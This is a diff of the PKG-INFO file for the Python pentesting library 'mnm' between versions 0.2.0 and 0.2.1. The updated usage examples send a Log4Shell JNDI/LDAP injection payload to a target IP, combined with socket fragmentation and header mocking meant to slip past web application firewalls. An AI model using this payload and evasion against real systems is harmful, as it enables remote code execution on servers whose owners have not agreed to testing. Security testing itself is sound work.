 ### Comparing `mnm-0.2.0/src/mnm.egg-info/PKG-INFO` & `mnm-0.2.1/src/mnm.egg-info/PKG-INFO`

 * *Files 25% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: mnm
-Version: 0.2.0
+Version: 0.2.1
 Summary: A simple python library for pentesting firewall protected webapp
 Author-email: ohk990102 <ohk990102@gmail.com>
 Project-URL: Homepage, https://github.com/ohk990102/mnm
 Project-URL: Bug Tracker, https://github.com/ohk990102/mnm/issues
 Classifier: Programming Language :: Python :: 3
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Operating System :: POSIX :: Linux
@@ -20,23 +20,35 @@
 ```bash
 pip install mnm
 ```
 
 ## Usage
 
 ```python
-import mnm
-mnm.enable_socket_fragmentation()
-mnm.enable_header_mocking()
-
+from mnm import *
 import requests
-requests.get('http://example.com')
-
-mnm.disable_socket_fragmentation()
-mnm.disable_header_mocking()
 
-requests.get('http://example.com')
+@mixed(SocketFragmentation(slice=5), HeaderMocking())
+def mixed_options(ip):
+    r = requests.get(f'http://{ip}/log', data={
+        "log": "${jndi:ldap://localhost:1389/Basic/BinaryInj#z}"
+    })
+    print(r.text)
+
+@mixed()
+def mixed_simple(ip):
+    r = requests.get(f'http://{ip}/log', data={
+        "log": "${jndi:ldap://localhost:1389/Basic/BinaryInj#z}"
+    })
+    print(r.text)
+
+def with_pattern(ip):
+    with SocketFragmentation(slice=5), HeaderMocking():
+        r = requests.get(f'http://{ip}/log', data={
+            "log": "${jndi:ldap://localhost:1389/Basic/BinaryInj#z}"
+        })
+        print(r.text)
 ```
 